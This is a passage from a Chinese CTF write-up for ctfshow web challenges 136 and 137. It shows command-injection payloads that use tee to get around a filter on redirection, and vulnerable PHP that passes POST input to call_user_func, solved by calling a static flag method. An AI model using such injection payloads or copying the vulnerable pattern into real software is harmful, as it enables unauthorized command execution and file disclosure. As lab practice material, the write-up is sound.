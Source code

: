 把重定向符、mv、cp禁用了。

linux中[`tee` 命令·](https://blog.csdn.net/jjlovefj/article/details/83176871)。 

> tee命令主要被用来向standout(标准输出流，通常是命令执行窗口）输出的同时也将内容输出到文件
>
> ```sh
> tee [OPTION]... [FILE]...
> ```

构造payload:

```php
?c=ls /|tee 1
?c=awk '/f/' /f149_15_h3r3|tee 1
```

## web137~class:fun()

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}



call_user_func($_POST['ctfshow']);

```

* call_user_func — 把第一个参数作为回调函数调用
* 第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。  

> php中 ->与:: 调用类中的成员的区别
> ->用于动态语境处理某个类的某个实例
> ::可以调用一个静态的、不依赖于其他初始化的类方法.

也就是说双冒号可以不用实例化类就可以直接调用类中的方法

直接调用`getFlag` 函数

```php
ctfshow=ctfshow::getFlag
```

## web138~call_user_func数组回调
